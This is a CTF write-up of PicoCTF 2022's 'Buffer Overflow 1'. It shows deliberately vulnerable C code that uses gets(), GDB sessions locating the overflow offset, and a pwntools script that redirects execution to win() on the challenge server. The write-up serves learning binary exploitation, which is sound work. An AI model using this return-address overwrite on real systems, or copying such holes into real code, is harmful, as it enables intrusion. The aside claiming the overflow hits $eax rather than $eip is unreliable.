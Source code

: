 ```yaml
---

title: "PicoCTF - Buffer Overflow 1"
date: 2023-08-22T19:48:58+08:00
author: John Wu
description: "PicoCTF 2022's buffer overflow 1 writeup"
tags: ["CTFs","guides","tech", "pwn"]
toc: true
draft: false

---
```


# PicoCTF 2022

This was a pretty beginner challenge for pwn that took me 2 days to figure out :). Fun times.
Going through multiple writeups and documentation to find how to do anything with binary exploitation tools is impossible.
So, here is a condensed version of what I've learned in the hours I spent on this problem.
All it takes is a little knowledge in reading x86, C, python, CPU registers, and some basic stack memory knowledge.

## Given Stuff

Problem:

Control the return address. Additional details will be available after launching your challenge instance.

Hints:
1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.


```c
// vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

`vuln`

## Tools
- GDB/pwndbg
- python3
- pwntools
- System: Linux 6.4.11-arch2-1 #1 SMP PREEMPT_DYNAMIC x86_64 GNU/Linux

## Analysis
Make the `vuln` file executable first: `chmod +x vuln`.
Open the project in GDB for analyzing: `gdb vuln`.
Create the fake flag locally: `echo "picoCTF{flag} > flag.txt"`.
From the source code, we see that there is a function `win` that is never called by `main` or `vuln`.
However, because it is still in the code and for the sake of the challenge, the program will still load `win` onto the stack.
```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

So, find the location of `win`.

```
pwndbg> info functions win
All functions matching regular expression "win":

Non-debugging symbols:
0x080491f6  win
pwndbg>
```

So `win` is located at 0x080491f6, and since this is a buffer overflow problem, we just have to set $eip to 0x080491f6.

*Future me* apparently it's not overflowing the $eip, it's overflowing the return register ($eax I think).

The vulnerability in the code is in the function `vuln`, because of the use of `gets()`.
So lets find out the buffer size in order to overflow the stack.

```
pwndbg> cyclic 300
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
pwndbg> r <<< aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
Starting program: /home/hyperboly/Downloads/bufover1/vuln <<< aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────
*EAX  0x41
*EBX  0x6161616a ('jaaa')
 ECX  0x0
 EDX  0x0
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
*ESI  0x8049350 (__libc_csu_init) ◂— endbr32 
*EBP  0x6161616b ('kaaa')
*ESP  0xffffd4e0 ◂— 0x6161616d ('maaa')
*EIP  0x6161616c ('laaa')
─────────────────────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]─────────────────────────────────────────────────────────────────────
Invalid address 0x6161616c

pwndbg>
```

`cyclic` from pwntools is available in pwndbg.
It basically creates a recognizable pattern that we can use to find where in the stack a 4 byte pattern exists.

[more resources](https://en.wikipedia.org/wiki/De_Bruijn_sequence), [and more](https://ir0nstone.gitbook.io/notes/types/stack/de-bruijn-sequences)

`r <<< <de-bruijn-sequences>` just means `run` the program, and input the de-bruijn-sequence.
The register $eip is now laaa, so we just have to find the offset of "laaa" to find how many bytes we need to overflow the eip.

The `cyclic -l` or `cyclic --lookup` command in pwndbg helps us locate the offset of a string or hex value.

```
pwndbg> cyclic -l laaa
Finding cyclic pattern of 4 bytes: b'laaa' (hex: 0x6c616161)
Found at offset 44
pwndbg>
```

## Solve

The pattern is at offset 44, so we can just append where `win` is in memory after 44 bytes which we know is at 0x080491f6.
So to put that into a python script with pwntools:
```python
# solve.py
from pwn import *

payload = b"A" * 44 + p32(0x80491f6)
target = remote('saturn.picoctf.net', 61303)

log.info(target.recvline())
target.sendline(payload)
log.info(target.recvall())

target.close()
```

Note that we can't send the raw 0x80491f6 because it's not in little endian, so we have to use the `p32()` function [docs](https://docs.pwntools.com/en/stable/util/packing.html)
We also can't send in the raw "A" because thats also not a byte, so we have to prepend `b""` to it, which in python means "turn it into bytes."

We can check locally by sending this into GDB:

```sh
pwndbg> r <<< $(echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08")
Starting program: /home/hyperboly/Downloads/bufover1/vuln <<< $(echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08")
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{flag}

Program received signal SIGSEGV, Segmentation fault.
```
